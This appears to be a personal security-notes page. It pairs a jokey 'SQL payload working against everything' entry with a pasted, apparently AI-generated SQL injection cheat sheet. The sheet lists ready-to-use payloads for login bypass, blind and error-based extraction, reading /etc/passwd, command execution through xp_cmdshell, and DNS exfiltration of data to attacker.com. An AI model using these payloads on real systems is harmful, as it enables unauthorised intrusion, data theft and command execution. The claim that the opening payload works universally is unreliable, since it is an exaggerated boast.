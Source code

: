 ### Title: sql payload working against everything
Tags: #sqli 
Author:
Reference: x.com

#### Notes
**Summary**: 1-2 sentence overview
**Notes**:
```sh
/?query="OR 1=1;--"&val1=ZGlkbnQgZXZlbiByZWFk&val2=aHR0cHM6Ly95b3V0dS5iZS9kUXc0dzlXZ1hjUQ%3D%3D&SLEEP(420)
```
damn this payload is working against everyhing.



Here's a consolidated file containing all the SQL injection (SQLI) payloads from the previous context, organized by category:

---

### **SQL Injection Payloads Cheat Sheet**

#### **1. Basic Detection Payloads**
```sql
'               -- Test for syntax error
''              -- Test if error disappears (escape sequence)
'||'test        -- Oracle concatenation test
'+'test         -- MS-SQL concatenation test
' 'test         -- MySQL concatenation test (note space)
%               -- Wildcard test (returns many results if SQL-backed)
```

#### **2. Database Fingerprinting Payloads**
```sql
' AND 1=1--     -- Basic boolean test (true condition)
' AND 1=2--     -- Basic boolean test (false condition)
' UNION SELECT 1,2,3--    -- Union-based test
```

**Database-Specific Version Checks:**
```sql
' AND 1=CONVERT(int,@@version)--      -- MS-SQL version check
' OR 1=1 IN (SELECT @@version)--      -- Alternative MS-SQL
' UNION SELECT 1,version(),3--        -- MySQL version check
' UNION SELECT 1,banner,3 FROM v$version--  -- Oracle version
```

#### **3. Time-Based Blind SQLi Payloads**
```sql
'; WAITFOR DELAY '0:0:5'--    -- MS-SQL delay test
' AND (SELECT sleep(5))--      -- MySQL delay test
'||DBMS_PIPE.RECEIVE_MESSAGE('a',5)--  -- Oracle delay
```

#### **4. Login Bypass Payloads**
```sql
admin'--                      -- Basic comment-based bypass
' OR '1'='1                   -- Classic tautology
' OR 1=1--                    -- Same as above (MS-SQL)
admin'/*                      -- MySQL comment bypass
```

#### **5. Error-Based SQLi Payloads**
```sql
' AND 1=CONVERT(int,@@version)--      -- MS-SQL error-based
' AND 1=(SELECT 1 FROM dual)--        -- Oracle error test
' AND EXTRACTVALUE(1,CONCAT(0x5c,version()))--  -- MySQL error
```

#### **6. File Access Payloads (If DB permits)**
```sql
' UNION SELECT 1,load_file('/etc/passwd'),3--   -- MySQL file read
' UNION SELECT 1,text,3 FROM OPENROWSET(BULK 'C:\file.txt')--  -- MS-SQL
```

#### **7. Command Execution Payloads (Dangerous!)**
```sql
'; EXEC xp_cmdshell('whoami')--      -- MS-SQL command exec
' UNION SELECT 1,system('id'),3--    -- MySQL (if enabled)
' OR 1=1$({system('id')})            -- If app uses shell
```

#### **8. OOB (Out-of-Band) Payloads**
```sql
' UNION SELECT 1,LOAD_FILE(CONCAT('\\\\',version(),'.attacker.com\\file')),3--  -- DNS exfiltration
'; DECLARE @q VARCHAR(1024);SET @q='\\'+@@version+'.attacker.com\\foo';EXEC master..xp_dirtree @q--  -- MS-SQL DNS
```

---
